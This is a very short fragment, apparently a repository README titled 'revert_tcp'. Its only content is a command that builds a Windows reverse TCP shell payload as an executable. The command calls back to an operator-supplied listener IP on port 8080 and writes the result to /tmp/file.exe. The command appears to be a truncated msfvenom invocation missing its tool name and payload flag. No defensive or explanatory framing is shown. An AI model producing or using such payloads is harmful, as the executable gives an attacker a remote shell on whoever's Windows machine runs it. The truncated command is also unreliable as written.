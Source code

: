 # revert_tcp

`windows/shell/reverse_tcp LHOST=<YOUR_LINUX_IP_ADDRESS> LPORT=8080 -f exe > /tmp/file.exe`